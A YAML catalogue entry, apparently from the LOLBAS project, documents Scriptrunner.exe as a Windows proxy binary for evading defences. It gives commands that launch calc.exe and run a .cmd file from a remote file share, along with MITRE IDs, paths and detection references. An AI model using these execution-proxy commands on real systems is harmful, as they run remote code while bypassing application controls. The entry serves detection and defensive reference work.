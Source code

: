 ```yaml
---
Name: Scriptrunner.exe
Description: Execute binary through proxy binary to evade defensive counter measures
Author: 'Oddvar Moe'
Created: 2018-05-25
Commands:
  - Command: Scriptrunner.exe -appvscript calc.exe
    Description: Executes calc.exe
    Usecase: Execute binary through proxy binary to evade defensive counter measures
    Category: Execute
    Privileges: User
    MitreID: T1202
    OperatingSystem: Windows vista, Windows 7, Windows 8, Windows 8.1, Windows 10, Windows 11
  - Command: ScriptRunner.exe -appvscript "\\fileserver\calc.cmd"
    Description: Executes calc.cmd from remote server
    Usecase: Execute binary through proxy binary from external server to evade defensive counter measures
    Category: Execute
    Privileges: User
    MitreID: T1218
    OperatingSystem: Windows vista, Windows 7, Windows 8, Windows 8.1, Windows 10, Windows 11
Full_Path:
  - Path: C:\Windows\System32\scriptrunner.exe
  - Path: C:\Windows\SysWOW64\scriptrunner.exe
Code_Sample:
  - Code:
Detection:
  - Sigma: https://github.com/SigmaHQ/sigma/blob/683b63f8184b93c9564c4310d10c571cbe367e1e/rules/windows/process_creation/proc_creation_win_servu_susp_child_process.yml
  - IOC: Scriptrunner.exe should not be in use unless App-v is deployed
Resources:
  - Link: https://twitter.com/KyleHanslovan/status/914800377580503040
  - Link: https://twitter.com/NickTyrer/status/914234924655312896
  - Link: https://github.com/MoooKitty/Code-Execution
Acknowledgement:
  - Person: Nick Tyrer
    Handle: '@nicktyrer'
---
```


